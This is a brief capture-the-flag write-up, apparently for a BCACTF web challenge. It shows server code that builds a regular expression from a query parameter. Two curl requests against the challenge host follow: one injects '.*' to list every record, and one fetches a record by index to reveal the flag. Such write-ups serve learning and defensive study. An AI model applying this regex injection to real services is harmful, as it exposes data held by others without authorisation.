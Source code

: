 ```yaml
---
ai_date: 2025-04-27 05:13:01
ai_summary: Exploited regex-based filtering to bypass authentication and retrieve flag using string matching and index manipulation
ai_tags:
  - regex
  - bypass
  - http-hdr
created: 2024-06-10T02:01
updated: 2025-07-14T09:46
---
```


> I found this database that does not use SQL, is there any way to break it?

---

```js
if (line.match('^'+req.query.name+'$')) {
	goodLines.push(line)
}
```

So it is taking our name as regex, give it `.*` then.

```sh
curl --request GET \
  --url 'http://challs.bcactf.com:30390/?name=.*'
```

There's someone with name `Flag Holder`, that's convenient.

> Ricardo Olsen has an ID of 1

Ah, so id is the index.

```sh
curl --request GET \
  --url http://challs.bcactf.com:30390/51/Flag/Holder

# bcactf{R3gex_WH1z_54dfa9cdba13}
```

Simple stuff.